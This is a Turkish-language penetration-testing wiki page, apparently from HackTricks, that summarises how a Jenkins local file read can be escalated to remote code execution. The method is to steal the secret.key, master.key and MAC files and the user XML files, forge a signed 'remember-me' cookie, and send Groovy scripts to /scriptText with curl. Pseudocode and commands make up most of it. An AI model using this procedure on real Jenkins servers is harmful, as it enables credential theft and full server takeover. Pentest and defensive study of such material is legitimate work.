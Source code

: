 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

Bu blog yazısında, Jenkins'teki bir Yerel Dosya Dahil Etme açığını RCE'ye dönüştürmenin harika bir yolunu bulmak mümkün: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Bu, bir yerel dosya okuma istismar edilerek RCE elde etmek için keyfi bir çerezin oluşturulmasının kötüye kullanıldığı yazının bir kısmının AI tarafından oluşturulmuş özetidir; kendi özetimi oluşturacak zamanım olana kadar:

### Saldırı Ön Koşulları

- **Özellik Gereksinimi:** "Beni hatırla" etkin olmalıdır (varsayılan ayar).
- **Erişim Düzeyleri:** Saldırganın Genel/Okuma izinlerine ihtiyacı vardır.
- **Gizli Erişim:** Anahtar dosyalardan hem ikili hem de metin içeriğini okuma yeteneği.

### Ayrıntılı İstismar Süreci

#### Adım 1: Veri Toplama

**Kullanıcı Bilgisi Alma**

- Her kullanıcı için `$JENKINS_HOME/users/*.xml` dosyasından kullanıcı yapılandırması ve gizli bilgileri erişin:
- **Kullanıcı Adı**
- **Kullanıcı tohum**
- **Zaman Damgası**
- **Şifre karması**

**Gizli Anahtar Çıkartma**

- Çerezi imzalamak için kullanılan kriptografik anahtarları çıkartın:
- **Gizli Anahtar:** `$JENKINS_HOME/secret.key`
- **Anahtar:** `$JENKINS_HOME/secrets/master.key`
- **MAC Anahtar Dosyası:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Adım 2: Çerez Sahteciliği

**Token Hazırlığı**

- **Token Süre Sonu Zamanını Hesapla:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Mevcut zamana bir saat ekler
```

- **Token için Verileri Birleştir:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Anahtarının Şifre Çözümü**

- **MAC Anahtar Dosyasını Şifre Çöz:**

```javascript
key = toAes128Key(masterKey)  // Anahtarı AES128 anahtar formatına dönüştür
decrypted = AES.decrypt(macFile, key)  // .mac dosyasını şifre çöz
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**İmza Hesaplama**

- **HMAC SHA256 Hesapla:**

```javascript
mac = HmacSHA256(token, macKey) // Token ve MAC anahtarı kullanarak HMAC hesapla
tokenSignature = bytesToHexString(mac) // MAC'i onaltılık dizeye dönüştür
```

**Çerez Kodlama**

- **Son Çerezi Oluştur:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Çerez verilerini Base64 ile kodla
```

#### Adım 3: Kod Çalıştırma

**Oturum Kimlik Doğrulaması**

- **CSRF ve Oturum Token'larını Al:**
- `/crumbIssuer/api/json` adresine bir istek yaparak `Jenkins-Crumb`'ı elde et.
- Yanıttan `JSESSIONID`'yi yakala, bu, hatırla çerezi ile birlikte kullanılacaktır.

**Komut Çalıştırma İsteği**

- **Groovy Script ile POST İsteği Gönder:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovy script, sistem düzeyinde komutları veya Jenkins ortamında diğer işlemleri çalıştırmak için kullanılabilir.

Verilen örnek curl komutu, gerekli başlıklar ve çerezlerle Jenkins'e istek yapmanın nasıl yapılacağını göstermektedir.

{{#include ../../banners/hacktricks-training.md}}

